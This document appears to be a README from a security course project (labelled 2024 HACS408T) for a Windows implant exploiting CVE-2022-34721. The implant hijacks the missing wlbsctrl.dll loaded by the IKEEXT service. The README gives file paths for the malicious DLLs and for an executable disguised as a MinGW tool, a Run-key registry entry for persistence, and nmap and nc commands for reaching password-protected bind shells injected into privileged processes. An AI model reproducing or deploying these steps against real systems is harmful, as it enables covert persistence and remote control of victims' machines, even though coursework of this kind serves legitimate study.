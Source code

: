 # [2024 HACS408T] GB Workstation Implant
This implant takes exploits the *CVE-2022-34721* vulnerability, hijacking the missing "wlbsctrl.dll" library loaded by the *IKEEXT* (Windows IPsec IKE and AuthIP) service. 
![[img1.png]]

### Installation:
- The compiled binaries can be found archived in the root of the repo, *implant.zip*. 
- Extract this zip on the target (GB Workstation) as follows:
	- "libnt.dll" should be placed at `C:\MinGW\bin\libnt.dll`
	- "wlbsctrl.dll" should be placed at `C:\MinGW\bin\wlbsctrl.dll`
	- "mingw32-d++.exe" should be placed at `C:\MinGW\bin\mingw32-d++.exe`
- Additionally, please also make the following entry in the Windows Registry (just incase the dll doesn't load for whatever rzn.. this is the exe version LOL)
	- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
	- Name: "MinGW"
	- Type: REG_SZ
	- Data: `C:\MinGW\bin\mingw32-d++.exe`

### Usage:
After restarting the *IKEEXT* service (manually or by reboot), the attacking computer can run:
- `$ nmap <target_ip> -p 4000-4200`
	- Any open ports on this range are bind shells injected into privileged processes on the workstation. 
- You can connect to these using `nc <target_ip> <port>`
	- When prompted for a password, you may write "yea". Check the code if you're interested, was too lazy to encrypt strings ^-^

![[img2.png]]